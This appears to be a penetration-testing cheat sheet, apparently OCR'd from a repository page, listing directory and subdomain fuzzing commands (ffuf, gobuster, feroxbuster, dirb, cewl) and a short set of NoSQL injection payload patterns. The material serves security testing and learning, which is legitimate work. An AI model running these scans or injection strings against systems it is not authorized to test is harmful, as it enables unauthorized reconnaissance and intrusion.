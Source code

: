 ### Cewl
> A tool to create a wordlist from a site.

```bash
cewl -d 5 -e --with-numbers http://example.com/
```

### ffuf
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/FUZZ'
```

*Most Popular domain discovery command*
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/ -H 'Host: FUZZ.host'
```

### Gobuster
```bash
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Feroxbuster
*(Best one)*
```bash
feroxbuster -u <url> -e -x html,js,php
```

### Dirb
```bash
dirb url -R
```

### GUI
```bash
dirbuster
```
```bash
owasp-zap
```

# Nosql Injection
> NoSQL databases (aka "not only SQL") are non-tabular databases and store data differently than relational tables.
> The syntax is different from traditional SQL syntax.
> Example: Mongo

### Common Pattern
```
' || 1==1 %00
' || 1==1 //
{ $ne: 1 }
true, $where: '1 == 1'
'; return 1 %00
```
